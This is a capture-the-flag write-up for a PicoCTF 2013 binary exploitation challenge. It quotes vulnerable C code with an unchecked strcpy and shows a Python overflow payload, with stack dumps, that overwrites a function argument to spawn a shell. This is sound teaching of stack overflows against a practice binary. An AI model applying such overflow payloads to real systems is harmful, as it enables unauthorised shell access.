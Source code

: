 # PicoCTF 2013: ROP 1

**Category:** Binary Exploitation
**Points:** 100
**Description:**

>Stack overflows are the most basic binary exploitation technique, but they
>take a lot of skill to master. If you already know some C, these problems can
>help acquaint you with stacks and binary exploitation in general.

>Problem available on the shell machine in
>/problems/stack_overflow_2_44e63640e033ff2b , downloadable [here](https://2013.picoctf.com/problems/overflow2-44e63640e033ff2b) with source
>[here](https://2013.picoctf.com/problems/overflow2-44e63640e033ff2b.c).

>If you solve the problem you will be able to read the key file by running

>cat /problems/stack_overflow_2_44e63640e033ff2b/key
>on the PicoCTF shell machine.


## Write-up
Looking at the source, this problem is nearly identical to Overflow 1
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "dump_stack.h"

void vuln(int win, char *str) {
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 23, (void **) &win);
    printf("win = %d\n", win);
    if (win == 1) {
        execl("/bin/sh", "sh", NULL);
    } else {
        printf("Sorry, you lose.\n");
    }
    exit(0);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: stack_overwrite [str]\n");
        return 1;
    }

    uid_t euid = geteuid();
    setresuid(euid, euid, euid);
    vuln(0, argv[1]);
    return 0;
}
```
All we have to do is set win equal to 1 and we get a shell. Let's try filling
up our buffer and writing one more character.

```
$(python -c 'print "A"*64 + "B"')
Stack dump:
0xffe0c7a8: 0x000003e8
0xffe0c7a4: 0xffe0d848 (second argument)
0xffe0c7a0: 0x00000000 (first argument)
0xffe0c79c: 0x0804870b (saved eip)
0xffe0c798: 0xffe0c7c8 (saved ebp)
0xffe0c794: 0xf773c000
0xffe0c790: 0xf7640042
0xffe0c78c: 0x41414141
0xffe0c788: 0x41414141
0xffe0c784: 0x41414141
0xffe0c780: 0x41414141
0xffe0c77c: 0x41414141
0xffe0c778: 0x41414141
0xffe0c774: 0x41414141
0xffe0c770: 0x41414141
0xffe0c76c: 0x41414141
0xffe0c768: 0x41414141
0xffe0c764: 0x41414141
0xffe0c760: 0x41414141
0xffe0c75c: 0x41414141
0xffe0c758: 0x41414141
0xffe0c754: 0x41414141
0xffe0c750: 0x41414141 (beginning of buffer)
win = 0
Sorry, you lose.
```
It didn't quite work that time, but all we need is 16 more characters after 
our buffer and "\x01" to get a shell!
```
$ ./overflow2-44e63640e033ff2b $(python -c 'print "A"*64 + "B"*16 + "\x01"')
Stack dump:
0xff915b18: 0x000003e8
0xff915b14: 0xff917838 (second argument)
0xff915b10: 0x00000001 (first argument)
0xff915b0c: 0x42424242 (saved eip)
0xff915b08: 0x42424242 (saved ebp)
0xff915b04: 0x42424242
0xff915b00: 0x42424242
0xff915afc: 0x41414141
0xff915af8: 0x41414141
0xff915af4: 0x41414141
0xff915af0: 0x41414141
0xff915aec: 0x41414141
0xff915ae8: 0x41414141
0xff915ae4: 0x41414141
0xff915ae0: 0x41414141
0xff915adc: 0x41414141
0xff915ad8: 0x41414141
0xff915ad4: 0x41414141
0xff915ad0: 0x41414141
0xff915acc: 0x41414141
0xff915ac8: 0x41414141
0xff915ac4: 0x41414141
0xff915ac0: 0x41414141 (beginning of buffer)
win = 1
$
```

pwn.

## Other write-ups and resources

* none yet
